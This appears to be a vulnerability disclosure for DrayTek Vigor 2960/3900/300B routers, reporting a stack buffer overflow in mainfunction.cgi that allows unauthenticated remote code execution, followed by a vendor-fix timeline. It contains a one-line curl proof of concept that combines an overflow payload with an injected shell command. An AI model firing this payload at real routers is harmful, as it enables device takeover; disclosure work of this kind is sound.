

#  a stack buffer over Vulnerability in DrayTek vigor2960，3900，300B in version v1.5.1,The vulnerability allows to execute remote code by unauthorized attacker

the vuln was in mainfunction.cgi .Action of authusersms.

vulnerabilities is stack-base buffer overflows while copying user parameters  formuserphonenumber  to static buffer.


Attacker can use this vuln to control the devices.

**poc**

```

curl -d "action=authusersms&custom1=1;&custom2=1&custom3=1&formuserphonenumber=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xEC\xC7\x01&URL=www.baidu.com&HOST=123456897&serverip=";ls;echo 'pwn it';&filename=pwn" -X POST http://192.168.0.250/cgi-bin/mainfunciton.cgi

```

**success images**



**time lines**

It's bug have been report to DrayTek,they confirm it and ask me to request CVE'id by myself acorrding to the github.

04/12/2020 report vuln to DreyTek
04/13/2020 DreyTek confirm it
04/17/2020 DreyTek fixed it and give me a beta version
06/18/2020 DreyTek release a new version.


